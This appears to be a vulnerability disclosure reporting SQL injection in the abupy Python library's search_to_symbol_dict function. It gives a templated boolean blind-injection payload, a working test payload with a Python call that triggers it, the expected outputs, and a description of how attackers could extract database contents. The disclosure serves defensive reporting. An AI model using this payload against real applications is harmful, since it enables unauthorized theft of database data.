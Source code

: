 Vulnerability Product: abupy <= v0.4.0  
Vulnerability version: <= v0.4.0  
Vulnerability type: SQL Injection  
Vulnerability Details:  
Vulnerability location: abupy.MarketBu.ABuSymbol.search_to_symbol_dict

SQL Injection in abupy <= v0.4.0 causes arbitrary SQL code execution 

## [](#header-3)PROVE: 

Payload: ```"us10101' union select case when {CODE YOU WANNA EXEC, RETURN TRUE OR FALSE} then 'usJASNW' else 'usTROVW' end where ''='"```  
Test_payload: ```"us10101' union select case when sqlite_version() = '3.31.1' then 'usJASNW' else 'usTROVW' end where ''='"```  
Usage: ```abupy.MarketBu.ABuSymbol.search_to_symbol_dict("us10101' union select case when sqlite_version() = '3.31.1' then 'usJASNW' else 'usTROVW' end where ''='")```  

Firstly download abupy latest version(v0.4.0)
```
pip install abupy
```

Secondly import abupy.MarketBu.ABuSymbol, and call abupy.MarketBu.ABuSymbol.search_to_symbol_dict with test_payload as argument(abupy.MarketBu.ABuSymbol.search_to_symbol_dict is a functional api which author mentioned in the comments of the function, It is legal and normal for users to call this function)
```py
import abupy.MarketBu.ABuSymbol
print(abupy.MarketBu.ABuSymbol.search_to_symbol_dict("us10101' union select case when sqlite_version() = '3.31.1' then 'usJASNW' else 'usTROVW' end where ''='"))
```

Finally you can find the result is `{'JASNW': 'JASON INDS INC'}`  
if you replace `sqlite_version() = '3.31.1'` with `sqlite_version() != '3.31.1'`  
you can find the result is `{'TROVW': 'TROVAGENE INC'}`

proved the result is determined by payload  
proved sql code execution  

poc: https://github.com/Leeyangee/leeya_bug/blob/main/abupy_poc.py

## [](#header-3)HARM: 

Programmers may mistakenly use abupy.MarketBu.ABuSymbol.search_to_symbol_dict in this library as part of the backend of the web application, allowing attackers to call the function and return sensitive database data.  

The above payload is just an example, attackers can construct a complex payload to obtain complete database sensitive information in a way similar to sql blind injection

discovered by leeya_bug

